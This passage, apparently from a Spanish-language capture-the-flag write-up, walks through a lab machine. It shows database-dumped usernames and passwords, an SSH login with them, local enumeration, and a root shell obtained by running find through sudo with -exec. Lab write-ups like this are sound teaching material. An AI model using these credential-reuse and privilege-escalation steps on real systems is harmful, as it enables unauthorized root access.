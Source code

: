 con LIMIT 0,1:
```
 '~shelly:F4ckTh3F4k3H4ck3r5~'
```
con LIMIT 1,1:
```
'~admin:cambiame2025~'
```

Tenemos dos user con sus pass:
```
shelly:F4ckTh3F4k3H4ck3r5
admin:cambiame2025
```

## ACCESO POR SSH

Tenemos dos usuarios y dos pass, utilizamos el de shelly:
```
ssh shelly@192.168.1.45
```
metemos el pass:F4ckTh3F4k3H4ck3r5

y estamos dentro, enumeramos un poco (id para ver si estamos en algún grupo privilegiado, printenv por si hay algo en la variable de entorno, find / -perm -4000 2>/dev/null
para ver si hay permisos SUI)
y por fin:
```bash
 sudo -l
```
```
sudo: unable to resolve host NexusLabCTF: Nombre o servicio desconocido
Matching Defaults entries for shelly on NexusLabCTF:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=LD_PRELOAD, use_pty

User shelly may run the following commands on NexusLabCTF:
    (ALL) NOPASSWD: /usr/bin/find
```

vamos a nuestra página de binarios de confianza:
```bash
https://gtfobins.github.io/
```
buscamos el binario "find" y clicamos en "sudo" que es lo que nos deja:

```
Sudo

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

    sudo find . -exec /bin/sh \; -quit

```
